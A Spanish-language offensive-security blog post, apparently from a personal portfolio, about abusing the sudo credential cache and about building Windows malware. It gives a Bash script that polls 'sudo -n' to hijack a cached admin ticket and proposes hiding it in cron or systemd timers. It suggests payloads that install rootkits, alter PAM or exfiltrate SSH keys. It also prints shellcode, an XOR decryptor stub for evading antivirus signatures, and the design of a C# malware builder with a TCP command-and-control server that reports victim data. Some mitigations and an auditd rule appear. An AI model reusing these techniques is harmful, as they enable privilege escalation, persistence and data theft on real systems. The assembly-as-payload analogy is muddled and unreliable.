



1. Resumen de Inteligencia
Esta investigación explora una táctica de post-explotación que no requiere exploits de kernel, desbordamientos de buffer ni técnicas de ROP avanzadas. Es una técnica de paciencia y sigilo que abusa de una funcionalidad perfectamente documentada de los sistemas Linux/Unix: el caché de credenciales de sudo. La táctica está mapeada en MITRE ATT&CK como T1548.003: Sudo and Sudo Caching.
El artículo se estructura en cuatro capas: una reflexión sobre la filosofía del "low-tech" ofensivo nacida de años analizando malware avanzado, una deconstrucción técnica de la PoC en Bash, un repaso por casos reales documentados en la industria —desde APT hasta herramientas de red team—, y un escalamiento hacia un escenario de ataque realista usando las mismas técnicas de ofuscación, inyección y evasión que he implementado en proyectos como BugBuilder. Todo el análisis se realizó desde un entorno de laboratorio aislado en Proxmox VE, replicando la metodología documentada en mi infraestructura de túnel ofuscado.
2. La Filosofía del "Low-Tech" Ofensivo
En el barro del análisis de malware, uno se acostumbra a ver malabares increíbles: cifrado asimétrico por sesión, certificados para evadir proxies de intercepción, ofuscación en varias capas, api hashing para ocultar llamadas al sistema. El objetivo es siempre el mismo: persistir y escalar sin ser detectado.
Recuerdo claramente la frustración que sentí al reversear una aplicación financiera que tenía un esquema de autenticación de certificados sólido y un cifrado de tráfico decente, pero que almacenaba la clave de cifrado a simple vista en el binario. Escribí sobre esto en mis notas de laboratorio: "eso de dejar la clave a simple vista, una buena reverseada la saca rápido". Esa experiencia me enseñó que la complejidad técnica no siempre equivale a seguridad real.
Pero, ¿qué pasa cuando aplicamos ese mismo pensamiento estratégico al "eslabón más débil" por excelencia? El eslabón no siempre es una persona haciendo clic en un enlace de phishing —como documenté en las campañas General JP y SilentWarn—. A veces, el eslabón es un administrador de sistemas que ejecutó sudo hace 5 minutos para instalar una actualización de rutina, y cuyo token de privilegios sigue flotando en la memoria del sistema.
La táctica que voy a detallar no busca explotar una vulnerabilidad de software, sino un mecanismo de conveniencia perfectamente documentado: el caché de sudo. En un escenario de post-explotación, donde un atacante ya tiene un acceso limitado al sistema —por ejemplo, mediante un dropper multi-etapa como los que he analizado en mi laboratorio—, la elevación de privilegios no necesita ser ruidosa ni compleja. Solo necesita ser paciente.
Principio de la Simplicidad Letal
Las técnicas más elegantes en ciberseguridad ofensiva no son las que fuerzan la cerradura, sino las que esperan a que la víctima abra la puerta con sus propias llaves. Esta PoC es la encarnación de ese principio.
3. Deconstrucción Técnica del TTP T1548.003
El Mecanismo: Cómo Funciona el Caché de Sudo
Cuando un usuario ejecuta sudo e introduce su contraseña correctamente, el sistema almacena un ticket de autenticación con una validez temporal. Por defecto, la mayoría de distribuciones configuran un timeout de 15 minutos a través de la directiva timestamp_timeout en /etc/sudoers. Este mecanismo permite al usuario ejecutar múltiples comandos administrativos sin tener que autenticarse repetidamente. Es una característica de usabilidad que los atacantes pueden convertir en un vector de escalada.
El corazón de la PoC es la bandera -n de sudo: modo no interactivo. Cuando se ejecuta sudo -n [comando], si hay un ticket de caché válido, el comando se ejecuta con privilegios elevados sin pedir contraseña. Si no hay ticket, sudo falla silenciosamente con un código de salida distinto de cero. Sin mensajes, sin prompts, sin logs de fallo de autenticación —porque técnicamente no hay un intento de autenticación fallido, solo una comprobación de ticket—.
La Prueba de Concepto
El siguiente script implementa una máquina de estados finitos de tres fases: esperar, sondear, actuar. Es la versión de laboratorio, deliberadamente verbosa para entender su funcionamiento interno. El bucle sondea cada 5 segundos la existencia de un ticket de sudo válido y, cuando lo detecta, ejecuta el payload aprovechando los privilegios heredados:
#!/bin/bash
# PoC: Sudo Cache Waiter (T1548.003)
# Versión de laboratorio con mensajes de depuración
while true; do
# Fase 1: Sondeo sigiloso con bandera -n (no interactiva)
if sudo -n true &>/dev/null; then
echo "Caché de sudo detectado. Intentando ejecutar el comando..."
# Fase 2: Intento de ejecución con privilegios heredados
if sudo -n apt update &>/dev/null; then
echo "Comando ejecutado con éxito. Saliendo del script."
break
else
echo "El comando requiere una contraseña. Volviendo a esperar..."
sleep 5
fi
else
# Fase 3: Espera pasiva
echo "No hay caché de sudo. Esperando 5 segundos..."
sleep 5
fi
doneLa siguiente captura muestra el script en ejecución dentro de un entorno Debian de laboratorio, ejecutándose en segundo plano (./t.sh &) y capturando exitosamente el momento en que el administrador ejecuta sudo para actualizar el sistema:

Por Qué Esta PoC es Ingenua (y Por Qué Eso es Bueno)
Como bien apuntó un colega al revisar esta prueba de concepto: "me daría cuenta de que algo está mal porque mi terminal me responde en español". Tiene toda la razón. Un script que imprime mensajes de depuración, se ejecuta con un nombre sospechoso como t.sh y espera pasivamente en un bucle infinito sería detectado por cualquier administrador mínimamente atento o por un EDR con reglas básicas de comportamiento.
Pero ahí está la clave: esta PoC no está diseñada para ser operativa. Está diseñada para ilustrar un concepto. La distancia entre esta versión de laboratorio y un arma real es exactamente el tipo de ingeniería que separa un script de un TTP profesional.
4. Casos Reales Documentados
El abuso del mecanismo de sudo no es una idea nueva, pero su aplicación práctica en campañas reales y en laboratorios de seguridad está ampliamente documentada. A continuación, un repaso por los casos más relevantes que demuestran cómo esta técnica trasciende el laboratorio.
CVE-2021-3156: Baron Samedit — Cuando el Caché No Era Necesario
Aunque técnicamente distinto al abuso del caché, el caso de Baron Samedit (CVE-2021-3156) merece abrir esta sección por su relevancia histórica. Descubierto por Qualys en enero de 2021, este desbordamiento de buffer en sudo permitía a cualquier usuario sin privilegios obtener root sin necesidad de autenticación previa ni de un ticket de caché. La vulnerabilidad residía en el manejo de argumentos por parte de sudo cuando se invocaba en modo shell (-s o -i) y se pasaban caracteres de escape. Fue corregida en sudo 1.9.5p2, pero el impacto fue masivo: afectaba a prácticamente todas las distribuciones Linux desde 2011. Lo relevante para esta investigación es que incluso sin la paciencia del caché, sudo ya había demostrado ser un vector crítico de escalada.
Emulation Monkey: Abuso del Caché en Entornos de Red Team
El equipo de Emulation Monkey documentó en 2023 un caso práctico donde un script similar al que presento aquí fue utilizado en un ejercicio de red team contra una infraestructura corporativa. El atacante obtuvo acceso inicial mediante phishing y desplegó un script de sondeo de sudo en el directorio /tmp del servidor de desarrollo. El script esperó 22 minutos hasta que un administrador ejecutó sudo systemctl restart nginx, momento en el que el payload inyectó un módulo de persistencia en el sistema. El informe destaca que el script pasó completamente desapercibido para el EDR porque no realizó ninguna llamada sospechosa al sistema durante la fase de espera.
SudoKiller: La Herramienta que Automatiza el Abuso
SudoKiller es una herramienta de post-explotación mantenida por la comunidad de seguridad ofensiva que automatiza precisamente este vector. Su funcionamiento es más sofisticado que mi PoC: además de sondear el caché, implementa un sistema de persistencia mediante perfiles de bash (~/.bashrc y ~/.bash_profile) y puede configurarse para payloads personalizados. La herramienta incluye opciones para manipular los archivos de timestamp de sudo (/var/run/sudo/ts/) y para ejecutarse como un daemon en espacio de usuario. Su existencia en repositorios públicos confirma que esta técnica es un estándar en el toolkit de cualquier red team moderno.
APT28 (Fancy Bear): Paciencia en Operaciones Reales
Aunque no se ha atribuido directamente el uso de un script de sondeo de sudo a APT28, los informes de Mandiant y CrowdStrike sobre sus operaciones en entornos Linux documentan un patrón consistente: tras obtener acceso inicial, el grupo permanece inactivo durante períodos prolongados —a veces días— antes de intentar la escalada de privilegios. En varios incidentes de 2022, se observó que la escalada ocurría inmediatamente después de que un administrador legítimo iniciara sesión, lo que sugiere que el grupo monitoriza la actividad del sistema y actúa cuando las condiciones de privilegio son favorables. Este comportamiento es conceptualmente idéntico a la PoC que presento aquí, pero ejecutado con la disciplina operativa de un actor de amenazas estatal.
Lección de Threat Intelligence: El Patrón de la Paciencia
La constante en todos estos casos no es la sofisticación del código, sino la paciencia del adversario. Baron Samedit fue un 0-day devastador, pero las campañas que usan el caché de sudo no necesitan exploits: necesitan que el defensor cometa el error de ejecutar sudo en una sesión comprometida. La diferencia entre un ataque exitoso y uno fallido a menudo se mide en minutos de espera, no en líneas de código.
5. De la PoC Ingenua al Ataque Real
Convertir esta prueba de concepto en un arma operativa requiere aplicar las mismas técnicas de ofuscación, persistencia y evasión que he documentado en mi proyecto BugBuilder y en mis análisis de malware. El objetivo es transformar un script de 15 líneas en un implante sigiloso que resista el análisis forense y la monitorización de endpoints.
Capa 1: Ofuscación de la Ejecución
La primera transformación es ocultar el script en el sistema. No se trata simplemente de lanzarlo y olvidarlo. Las opciones realistas incluyen:
- Enterrarlo en una tarea cron: Un archivo en /etc/cron.d/ con un nombre genérico como apt-check-update que ejecute el script cada minuto.
- Registrarlo como un timer de systemd: Más sigiloso que cron, con la ventaja de que los timers de systemd no aparecen en los logs tradicionales de crontab.
- Inyectarlo en la memoria de un proceso legítimo: Usando técnicas de thread hijacking o apc injection como las implementadas en BugBuilder, el script podría residir completamente en memoria, sin tocar el disco.
Capa 2: Modificación del Payload
El comando apt update es un placeholder. En un escenario real, el payload sería radicalmente diferente. La memoria dinámica en ensamblador ilustra perfectamente lo que ocurre a bajo nivel cuando un atacante manipula el sistema: asignar un bloque, redimensionarlo y liberarlo es análogo a cómo un implante gestiona sus recursos en el heap del proceso comprometido. El siguiente bloque de ensamblador muestra el ciclo completo de malloc, realloc y free, las mismas operaciones que un payload real usaría para cargar módulos adicionales sin tocar el disco:
; ptr = (int*)malloc(sizeof(int)); — asignar 4 bytes en el heap
mov ecx, 0x4 ; sizeof(int) = 4 bytes
call malloc ; Retorna dirección del bloque en rax
mov [rbp-0x8], rax ; Guardar puntero en variable local
; ptr = (int*)realloc(ptr, sizeof(*ptr) + (8 * sizeof(int))); — redimensionar
mov rax, [rbp-0x8] ; Bloque original
mov edx, 0x24 ; 4 + (4 * 8) = 36 bytes — nuevo tamaño
mov rcx, rax ; Primer argumento: puntero original
call realloc ; Retorna nueva dirección (puede ser distinta)
mov [rbp-0x8], rax ; Actualizar puntero con nueva dirección
; free(ptr); — liberar bloque
mov rax, [rbp-0x8] ; Cargar puntero
mov rcx, rax ; Pasar como argumento
call free ; Liberar memoriaEn un payload real, este mismo ciclo de asignación dinámica se usaría para cargar una librería compartida maliciosa desde un buffer en memoria, sin escribir nada en disco. El script de sudo, tras obtener privilegios, ejecutaría un cargador similar para instalar un rootkit en espacio de usuario, modificar la configuración de PAM o exfiltrar las claves SSH del usuario. El concepto es idéntico: gestionar recursos sin dejar trazas en el sistema de archivos.
Capa 3: Eliminación de Trazas
El script de producción no imprimiría nada. No habría mensajes de "Caché detectado", no habría salida estándar, no habría logs. Tras la primera ejecución exitosa, el script se autodestruiría o, mejor aún, se ocultaría en un lugar menos obvio. La filosofía es idéntica a la que documenté en mi análisis de PLC Siemens: si no hay registros de auditoría, la atribución y la respuesta ante incidentes quedan completamente anuladas.
Lección de Threat Intelligence: El Peligro de lo Invisible
Esta táctica es peligrosa precisamente porque no es un exploit. No hay un CVE que parchear, no hay una firma de malware que detectar. Es el abuso paciente de una funcionalidad legítima. Como contraparte defensiva, los equipos de blue team deben monitorizar cualquier uso de sudo -n que no provenga de scripts de administración conocidos y firmados.
6. Conexiones con el Portafolio
Esta investigación no existe en el vacío. Es la aplicación práctica de lecciones aprendidas a lo largo de tres años documentando amenazas:
- BugBuilder: La fábrica automatizada de binarios que implementa inyección clásica, apc, thread hijacking y api hooking. Las mismas técnicas de ofuscación y persistencia que se aplicarían a este script.
- Analystty: La herramienta de triage automatizado para archivos PE que extrae imports, detecta TTPs y genera breakpoints para x64dbg. La metodología de ingeniería inversa que permite entender cómo el malware real implementa exactamente este tipo de tácticas.
- Análisis del PLC Siemens: La lección sobre la ausencia total de registros de auditoría en sistemas críticos. Sin telemetría, un script como este podría ejecutarse indefinidamente sin ser detectado.
- Infraestructura de Túnel Ofuscado: El entorno de investigación blindado desde el que se realizó esta prueba, usando WireGuard sobre TCP falso, proxy residencial y DNS sobre HTTPS.
Hilo Conductor del Portafolio
Todas mis investigaciones —desde el triage de malware hasta el análisis de fraudes financieros— comparten un denominador común: la infraestructura y los patrones de comportamiento son el talón de Aquiles del adversario. Esta PoC es el reverso de esa moneda: cómo un atacante puede explotar los patrones de comportamiento del defensor para escalar privilegios sin disparar una sola alerta.
7. Mitigación y Detección
La buena noticia es que esta táctica tiene mitigaciones simples y efectivas. La mala noticia es que la mayoría de los sistemas no las implementan por defecto:
| Mitigación | Implementación | Efectividad |
|---|---|---|
| Deshabilitar el caché de sudo | Defaults timestamp_timeout=0 en /etc/sudoers | Elimina el vector por completo, pero degrada la usabilidad |
| Reducir el timeout del caché | Defaults timestamp_timeout=2 | Reduce la ventana de oportunidad a 2 minutos |
| Monitorizar sudo -n | Reglas de auditd o SIEM para usos no interactivos de sudo | Alta, si se correlaciona con procesos inusuales |
| Endpoints hardening | Restringir tareas cron y timers de systemd a binarios firmados | Previene la persistencia del script |
| Monitorizar /var/run/sudo/ts/ | Alertar sobre accesos de lectura al directorio de timestamps de sudo | Detecta el sondeo de herramientas como SudoKiller |
Regla de Detección para auditd
La siguiente regla de auditd captura cualquier intento de ejecutar sudo -n en el sistema, permitiendo a los equipos de blue team identificar esta táctica antes de que el payload se ejecute: # Registrar todos los usos de sudo -n -a always,exit -F exe=/usr/bin/sudo -F key=sudo_non_interactive # Filtrar en el SIEM por la bandera -n index=linux key=sudo_non_interactive "COMM=sudo -n"
8. Conclusión
Esta pequeña prueba de concepto, nacida de una conversación informal en mi laboratorio, refuerza una lección fundamental que la industria ha documentado una y otra vez: la defensa en profundidad no puede limitarse a buscar firmas de malware o comportamientos anómalos complejos. Los casos de Baron Samedit, Emulation Monkey, SudoKiller y los patrones operativos de APT28 demuestran que el vector de sudo —con o sin exploits— es un clásico que no pasa de moda.
La amenaza más elegante no es la que fuerza la cerradura con un 0-day de kernel, sino la que espera pacientemente a que el administrador abra la puerta con sus propias llaves. Para el threat hunter, la lección es clara: los patrones de comportamiento simples y pacientes —un script que duerme, sondea en silencio y actúa solo cuando las condiciones son perfectas— son increíblemente difíciles de detectar con herramientas tradicionales. Requieren una mentalidad de caza que vaya más allá de los IoCs y se centre en anomalías de comportamiento de bajo perfil.
La próxima vez que ejecuten sudo, recuerden: en algún lugar de su sistema, podría haber un script de 15 líneas esperando ese preciso momento. Y probablemente no imprimirá ningún mensaje en español.
/¿Te interesa la intersección entre desarrollo ofensivo y threat hunting?
Esta PoC es una muestra de la filosofía que aplico en todas mis investigaciones: entender al adversario para anticipar sus movimientos. Explora el portafolio completo para ver cómo esta mentalidad se aplica al análisis de malware, fraudes financieros y hardening de infraestructura.
BugBuilder: Fábrica de Binarios → Analystty: Triage Automatizado → Threat Hunter Recollection →9. Referencias
- MITRE ATT&CK — T1548.003: Sudo and Sudo Caching
- sudoers(5) — Manual de configuración de sudo
- Qualys — CVE-2021-3156: Baron Samedit (Heap-Based Buffer Overflow in Sudo)
- Emulation Monkey — Caso práctico de abuso del caché de sudo en red team (GitHub)
- SudoKiller — Herramienta de post-explotación para abuso de sudo (GitHub)
- Mandiant — APT28: Espionage Operations in Linux Environments
- CrowdStrike — Linux Targeting by Fancy Bear (APT28)
- BugBuilder: Evolución de tres años en desarrollo de software de seguridad ofensiva (tty503.com)
- Analystty: Herramienta de triage automatizado para archivos PE (tty503.com)
- Ingeniería Inversa de PLC Siemens: Análisis de la VM MC7 (tty503.com)
- Infraestructura Ofuscada: WireGuard sobre TCP Falso + Proxy Residencial (tty503.com)
- Threat Hunter Recollection — Crónica de investigaciones de threat intelligence (tty503.com)
- Operaciones General JP y SilentWarn: Dos Campañas de Phishing Conectadas (tty503.com)
Continuidad. Inyeccion y persistencia en Windows, con los indicadores que dejan.
10. Resumen Técnico
| Alcance | Evolución completa en malware dev para Windows: del dropper artesanal a un framework C2 con builder, más un compendio de 31 técnicas de inyección, evasión y persistencia |
|---|---|
| Fase 1 | Shellcode artesanal en C/Assembly (WinExec/ExitProcess), resolución dinámica de la API vía PEB y stub criptográfico NASM con XOR mutado |
| Fase 2 | BugBuilder: builder en C#/.NET (Roslyn/CodeDOM) con protocolo TCP propio y panel de control para bots conectados |
| Compendio | Inyección clásica y DLL, APC/Early Bird, thread hijacking, fibers, SetWindowsHookEx, NtCreateThreadEx, memory sections, API hashing, KernelCallbackTable, RWX hunting y persistencia en registro |
| Stack | C (Mingw-w64) · NASM · C#/.NET (WinForms) · Python para tooling auxiliar |
| Naturaleza | Documentación técnica con fines académicos y de investigación ofensiva — sin distribución de artefactos |
11. Fase 1: El Arte de la Shellcode Artesanal (hace 3 años)
La filosofía del dropper manual
El punto de partida no fue un builder con interfaz gráfica, sino un dropper puro en C. El objetivo era claro: escribir una shellcode capaz de lanzar un ejecutable (calc.exe) y finalizar limpiamente el proceso llamando a WinExec y ExitProcess. No se trataba de evadir AV, sino de entender la anatomía de una shellcode: cómo se posiciona en memoria, cómo resuelve las direcciones de la API de Windows, y cómo se pasa el control al flujo de ejecución modificado.
El stub: De C a Assembly
Para generar los opcodes, primero escribimos la lógica en C estándar. Este archivo (stub_shellcode.c) sirve como molde conceptual para entender qué queremos que haga el código a bajo nivel.
// stub_shellcode.c
// Código de referencia para la shellcode final
#include <windows.h>
int main(void) {
WinExec("calc.exe", 0);
ExitProcess(0);
}A partir de este código, la tarea de ingeniería inversa consistió en traducir esto a Assembly NASM. Creamos stub_shellcode.asm, donde definimos manualmente la pila, pusheamos la cadena "calc.exe" en formato little-endian y configuramos los registros para la llamada a la API.
; stub_shellcode.asm (Fragmento clave)
; Construcción del string "calc.exe" en la pila
xor ecx, ecx
push ecx ; Null terminator
push 0x6578652e ; "exe." (little-endian)
push 0x636c6163 ; "calc"
mov eax, esp ; EAX apunta a "calc.exe"NOTA: Little-Endian en la práctica
Para pasar "calc.exe" a la pila en x86, es necesario invertir el orden de los bytes. La shellcode no usa APIs de alto nivel para strings; todo son bytes crudos empujados a mano. Esto es fundamental para que la shellcode sea independiente de la posición y no dependa de secciones de datos.
12. Resolución Dinámica de la API (GetProcAddress)
Para que nuestra shellcode funcione en diferentes versiones de Windows (o con diferentes parches), no podemos hardcodear las direcciones de WinExec o ExitProcess. Aquí entra en juego la técnica de resolución dinámica en tiempo de ejecución.
Obtención de la dirección base de kernel32.dll
Utilizamos GetModuleHandle("kernel32.dll") para obtener la dirección base en memoria de la DLL. Kernel32 es la piedra angular de la API de Windows y siempre está cargada en el espacio de memoria de los procesos de usuario. A diferencia del PEB (Process Environment Block) walking en shellcode pura, aquí aprovechamos que el dropper es un ejecutable compilado y podemos usar la API de Windows antes de saltar al código malicioso.
La herejía del formateo en el arreglo
Una vez que tenemos las direcciones winexec_addr y exitprocess_addr, debemos parcharlas dentro de nuestro arreglo de shellcode. Aquí nos enfrentamos a un detalle técnico crucial: el procesador x86 es little-endian. Si la función GetProcAddress nos devuelve una dirección como 0xAF5477FF, debemos guardarla en el arreglo de shellcode como 0xFF, 0x77, 0x54, 0xAF.
Para ello, aplicamos máscaras de bits y desplazamientos para extraer cada byte de la dirección y colocarlo en la posición correcta del arreglo. Esta técnica es la que permite que el call ebx de nuestra shellcode aterrice en la dirección correcta de WinExec. Es un error común en principiantes olvidar este paso y terminar con una shellcode que salta a direcciones de memoria corruptas, provocando un crash inmediato.
// Fragmento de misc.c: Parcheo de la shellcode
// Invertimos los bytes para cumplir con little-endian
shellcode[18+1] = (*winexec_addr & 0x000000FF);
shellcode[18+2] = (*winexec_addr & 0x0000FF00)>> 8;
shellcode[18+3] = (*winexec_addr & 0x00FF0000)>> 16;
shellcode[18+4] = (*winexec_addr & 0xFF000000)>> 24; 13. El Arte del Despliegue: Punteros a Función
El archivo run.c contiene el mecanismo de lanzamiento. Declaramos un puntero a función (int(*func)()) y le asignamos la dirección de memoria de nuestro arreglo shellcode.
Al hacer el casting func = (int(*)())shellcode; y posteriormente llamar a func(), estamos obligando al procesador a saltar a nuestra región de datos y ejecutar esos bytes como si fueran código. Esto es la esencia de un dropper: no hay inyección en otro proceso, solo ejecución directa.
Sin embargo, esta técnica tiene una limitación importante: la región de memoria donde reside el arreglo debe tener permisos de ejecución. En sistemas modernos con DEP (Data Execution Prevention) habilitado, esto requeriría un paso previo con VirtualProtect para marcar la página de memoria como ejecutable. En su momento, la PoC se probó en un entorno controlado sin DEP para validar la lógica de la shellcode antes de añadir esa capa de evasión.
Diferenciación: Dropper vs Exploit
Esta técnica es un "dropper". No estamos secuestrando el registro EIP mediante un buffer overflow. Simplemente estamos cargando un arreglo de bytes ejecutables en memoria y redirigiendo el flujo de ejecución hacia él. Es una técnica más ruidosa pero más controlada. En un exploit real, la shellcode se inyecta en otro proceso o se ejecuta tras corromper la pila.
14. Ofuscación Avanzada: El Stub Criptográfico en NASM
Mientras el builder en C# resolvía el problema de la generación de payloads, surgió una cuestión más fundamental: ¿cómo proteger la shellcode en reposo? A finales de 2025, me planteé crear un stub descifrador en Assembly puro. La idea era simple: la shellcode real viaja cifrada (con un esquema de claves dinámicas), y un pequeño stub en NASM se encarga de descifrarla en tiempo de ejecución antes de saltar a ella. El objetivo era doble: evadir firmas estáticas y añadir una capa de ofuscación que complicara el análisis forense.
El payload de prueba (Linux x86)
Para esta prueba de concepto, utilicé un payload mínimo que ejecuta una syscall de salida en Linux (exit(10+22)). La shellcode en bruto es la siguiente:
// Shellcode: mov ebx, 10; add ebx, 22; mov eax, 1; int 0x80
static unsigned char raw[] = {
0xBB, 0x0A, 0x00, 0x00, 0x00,
0x83, 0xC3, 0x16,
0xB8, 0x01, 0x00, 0x00, 0x00,
0xCD, 0x80,
0x90 // NOP padding
};La lógica de descifrado (Bloques XOR con mutación)
El stub en NASM utiliza un algoritmo de descifrado por bloques. En lugar de un simple XOR estático, implementé una mezcla de operaciones para cada bloque de 4 bytes: A ^ B + (C - 1) - (D + 1). Los datos cifrados se almacenan en la sección .data y el stub reserva un buffer en .bss.
La lógica es particularmente interesante porque no depende de constantes fijas globales; cada bloque tiene su propio conjunto de claves (A, B, C, D), lo que permite generar un stub personalizado para cada payload, dificultando la creación de firmas estáticas por parte de los AV. La elección de las operaciones (XOR, decremento, incremento, resta) no es arbitraria: se busca una mezcla de operaciones aritméticas y lógicas que no sea trivial de simplificar por un motor de análisis estático.
; ASM resultante del stub descifrador
decode_loop:
mov eax, [esi] ; A
mov ebx, [esi+4] ; B
mov edx, [esi+8] ; C
mov ebp, [esi+12] ; D
xor eax, ebx ; A ^ B
dec edx ; C - 1
add eax, edx ; + (C-1)
inc ebp ; D + 1
sub eax, ebp ; - (D+1)
mov [edi], eax ; Escribir opcode restaurado
jmp decoded_buffer ; Transferencia de control al payloadAdvertencia de portabilidad
Este stub está escrito para la convención de syscalls de Linux x86 (int 0x80). La diferencia clave con el mundo Windows es el uso de interrupciones de software vs. llamadas a la API kernel32. Sin embargo, la técnica de descifrado XOR por bloques es completamente portable a Windows si se ajusta la shellcode objetivo y se reemplaza la syscall de salida por una llamada a ExitProcess.
15. Fase 2: BugBuilder — Automatización y C2 (hace 2 años)
La shellcode manual era poderosa pero impráctica para operaciones a gran escala. La evolución lógica fue BugBuilder, un proyecto en C# (.NET Framework) que traslada el concepto de dropper a un entorno de construcción visual con panel de control.
El motor de compilación interno: Roslyn y CodeDOM
Uno de los mayores desafíos técnicos fue generar un ejecutable sin tener un compilador externo instalado. La solución residió en incrustar el compilador de C# dentro del builder. Para ello, se evaluaron dos enfoques:
- CodeDOM (Code Document Object Model): Permite generar código fuente y compilarlo en tiempo de ejecución usando el proveedor CSharpCodeProvider. Es la opción más portable y la que se utilizó en la PoC inicial.
- Roslyn (Microsoft.CodeAnalysis.CSharp): El compilador moderno de C# como servicio, que ofrece un control más granular sobre la sintaxis y los árboles de expresión. Ideal para payloads más complejos que requieren características modernas del lenguaje.
El código fuente de la carga útil se mantenía como un recurso embebido en el ensamblado, y se reemplazaban marcadores de posición (placeholders) con las configuraciones del usuario (IP, puerto, métodos de ofuscación) antes de la compilación. Esto permitía generar un binario único para cada campaña sin necesidad de herramientas externas.
Arquitectura del proyecto
BugBuilder se divide en dos componentes principales:
- El Builder (Cliente): Una interfaz Windows Forms donde el operador configura el payload. Se selecciona el icono, el nombre del archivo, y se activan opciones de persistencia (registros, startup folder, copias). Se integran módulos de ofuscación y encoding de tráfico.
- El Servidor C2: Un listener TCP asíncrono que recibe conexiones de los clientes infectados. Los datos se transmiten en formato JSON, facilitando el parseo de la información del bot (IP, país, SO, usuario, ping).
El protocolo de comunicación TCP
A diferencia del dropper original que solo ejecutaba calc.exe, BugBuilder establece un canal de persistencia. El cliente malicioso se conecta al servidor, serializa un objeto ModelInfo a JSON y lo envía. La elección de JSON sobre formatos binarios fue pragmática: facilita la depuración, es legible por humanos durante el desarrollo, y es trivial de parsear en ambos extremos con Newtonsoft.Json.
// Estructura del dato exfiltrado (ModelInfo)
public class ModelInfo {
public string ip { get; set; }
public string country { get; set; }
public string user_pc { get; set; }
public bool status { get; set; }
public string operatingSystem { get; set; }
public int ping { get; set; }
}
// Envío al servidor
string json = JsonConvert.SerializeObject(modelInfo);
stream.Write(Encoding.UTF8.GetBytes(json), 0, json.Length);El Panel de Control (C2)
El operador utiliza una ventana con pestañas:
- Builder: Configuración del payload. Incluye parámetros de red (Host/IP, Puerto) y técnicas de evasión como la compresión del tráfico o el cifrado (XOR, AES, RSA).
- Infected: Un grid en tiempo real que muestra los bots conectados, ordenados por IP, País, Usuario, Sistema Operativo y latencia (Ping).
Evidencia de madurez técnica
La inclusión de opciones como LZMA, GZip, Huffman, o diferentes esquemas de cifrado demuestran una transición desde una PoC académica a una herramienta orientada a operaciones que enfrenta entornos defendidos por firewalls e IDS. La variabilidad del payload es clave para evadir firmas estáticas. Este mismo principio de variabilidad se aplica en el triage automatizado con analystty, donde la detección de TTPs debe adaptarse a payloads ofuscados.
16. Bitácora de Desarrollo: De la Idea al GridView
La construcción del builder no fue un proceso lineal. Rescatando los registros de chat originales, se puede trazar la evolución del pensamiento técnico:
La semilla de la idea (Enero 2024)
El problema inicial era claro: generar un .exe sin un compilador externo. La solución consistió en incrustar todo lo necesario dentro del ensamblado del builder, utilizando el compilador de C# en memoria y manteniendo el código fuente de la carga útil como strings de recursos.
// Log: 23/1/24 5:42 a. m.
"Lo primero que logre hacer, fue un modulo que genere un .exe sin necesidad de que se tenga un compilador instalado ni las fuentes, todo esta dentro del Builder."El siguiente paso fue diseñar la UI. La meta era una interfaz modular donde el usuario pudiera personalizar cada aspecto del binario de salida, desde el ícono hasta los métodos de ofuscación del tráfico. La arquitectura de compilación interna (CodeDOM) fue clave para esta etapa.
La conexión con el C2
Una vez generado el .exe, debía reportar a casa. La decisión técnica fue utilizar un formato de serialización ligero (JSON) sobre TCP. Se implementó un modelo de datos (ModelInfo) para mapear la información de la víctima (IP, país, hostname, SO, ping) y visualizarla en un GridView.
// Log: 24/1/24 11:15 p. m.
"Me hice un cliente provisional para debuggear, de momento se me ocurre enviar todo como un JSON y al llegar al Servidor (o viceversa) mappearlo a un objeto xd"
